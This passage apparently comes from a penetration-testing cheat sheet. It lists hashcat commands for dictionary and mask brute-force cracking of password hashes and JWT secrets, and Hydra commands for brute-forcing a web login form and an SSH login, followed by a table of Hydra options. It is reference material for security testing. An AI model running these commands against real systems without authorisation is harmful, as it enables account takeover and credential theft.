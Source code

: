 Dictionary attack:

```fundamental
hashcat -m 100 -a 0 --session=cracking --force --status -O B1B3773A05C0ED0176787A4F1574FF0075F7521E rockyou.txt

hashcat -m 5600 -a 0 --session=cracking --force --status -O -o hashcat_results.txt hashes.txt rockyou.txt
```

You can find `rockyou.txt` wordlist in [SecLists](#wordlists).

Brute force a hash using a  placeholder:

```fundamental
hashcat -m 0 -a 3 --session=cracking --force --status -O cc158fa2f16206c8bd2c750002536211 -1 ?l?u -2 ?d?s ?1?l?l?l?l?l?2?2

hashcat -m 0 -a 3 --session=cracking --force --status -O 85fb9a30572c42b19f36d215722e1780 -1 \!\"\#\$\%\&\/\(\)\=??\* -2 ?d?1 ?u?l?l?l?l?2?2?2
```

### Cracking the JWT

Dictionary attack:

```fundamental
hashcat -m 16500 -a 3 --session=cracking --force --status -O eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJuYW1lIjoiSm9obiBEb2UifQ.xuEv8qrfXu424LZk8bVgr9MQJUIrp1rHcPyZw_KSsds
```

You can also check the JWT cracking tool from my other [project](https://github.com/ivan-sincek/jwt-bf).

### Hydra

Crack an HTTP POST web form login:

```fundamental
hydra -o hydra_results.txt -l admin -P rockyou.txt somesite.com http-post-form '/login.php:username=^USER^&password=^PASS^&Login=Login:Login failed!'
```

When cracking a web form login, you must specify `Login=Login:<expected_message>` to distinguish between a successful login and a failed one. Each expected message can vary between web forms.

Keep in mind that the `username` and `password` request parameters can be named differently.

Crack a Secure Shell (SSH) login:

```fundamental
hydra -o hydra_results.txt -L users.txt -P rockyou.txt 192.168.8.5 ssh
```

You can find a bunch of wordlists in [SecLists](#wordlists).

| Option | Description |
| --- | --- |
| -R | Restore a previous aborted/crashed session |
| -S | Perform an SSL connect |
| -O | Use old SSL v2 and v3 |
| -s | If the service is on a different default port, define it here |
| -l | Login with a login name |
| -L | Load several logins from a file |
| -p | Login with a password |
| -P | Load several passwords from a file |